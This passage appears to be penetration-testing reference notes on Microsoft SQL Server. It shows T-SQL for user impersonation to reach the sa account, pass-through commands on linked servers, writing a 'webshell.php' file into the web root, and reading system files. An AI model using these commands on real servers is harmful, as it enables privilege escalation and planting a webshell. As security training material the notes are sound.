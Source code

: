 Verify current user and role:
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

Identify users you can impersonate with the MSSQL account:
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Impersonate a user (this example is the `sa` user and we issued a command asking if they were a sysadmin):
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

#### Use Linked Servers

Identify linked servers with the MSSQL service:
```
1> SELECT srvname, isremote FROM sysservers
2> GO
```

EXECUTE to send pass-through commands to identified linked server (In this example, the identified server was `10..0.0.12\SQLEXPRESS` and we are passing the command to ask who has the sysadmin role):
```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

#### Write Files with MSSQL

```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, ''
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

#### Read Files with MSSQL

```sqlcmd session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```